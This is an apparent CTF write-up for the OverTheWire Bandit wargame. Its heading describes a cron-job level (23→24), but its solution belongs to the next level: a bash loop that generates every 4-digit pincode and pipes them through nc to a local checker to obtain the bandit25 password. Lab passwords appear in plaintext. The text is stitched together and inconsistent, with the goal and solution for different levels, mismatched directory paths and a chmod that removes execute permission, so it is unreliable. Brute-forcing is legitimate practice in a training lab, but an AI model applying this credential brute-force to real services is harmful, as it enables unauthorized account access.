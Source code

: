 <h1>Bandit 23 &#x2192; Bandit 24 </h1>

<h2 id="level-goal">Level Goal</h2>
<p>A program is running automatically at regular intervals from
<strong>cron</strong>, the time-based job scheduler. Look in <strong>/etc/cron.d/</strong> for
the configuration and see what command is being executed.</p>

<p><strong>NOTE:</strong> This level requires you to create your own first
shell-script. This is a very big step and you should be proud of
yourself when you beat this level!</p>

<p><strong>NOTE 2:</strong> Keep in mind that your shell script is removed once
executed, so you may want to keep a copy around…</p>

<h2 id="commands-you-may-need-to-solve-this-level">Commands you may need to solve this level</h2>
<p>cron, crontab, crontab(5) (use “man 5 crontab” to access this)</p>


<h1>Solution</h1>

```
user@host:~$ ssh bandit24@bandit.labs.overthewire.org -p 2220
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1111
Wrong! Please enter the correct pincode. Try again.
^C
```

Let's make a script that automatically tries all combinations.

```
bandit24@bandit:~$ mkdir /tmp/scripts/
bandit24@bandit:~$ vim /tmp/myscripts/runme.sh
  1 #!/bin/bash
  2 for i in {0000..9999}; do
  3     echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> /tmp/myscripts/combinations.txt
  4 done
bandit24@bandit:~$ chmod -x /tmp/myscripts/runme.sh
bandit24@bandit:~$ touch /tmp/myscripts/combinations.txt
bandit24@bandit:~$ ls /tmp/myscripts/
combinations.txt  runme.sh
bandit24@bandit:~$ bash /tmp/myscripts/runme.sh
bandit24@bandit:~$ cat /tmp/myscripts/combinations.txt | nc localhost 30002
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
...
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

[bandit level 23](23.md)
[bandit level 25](25.md)
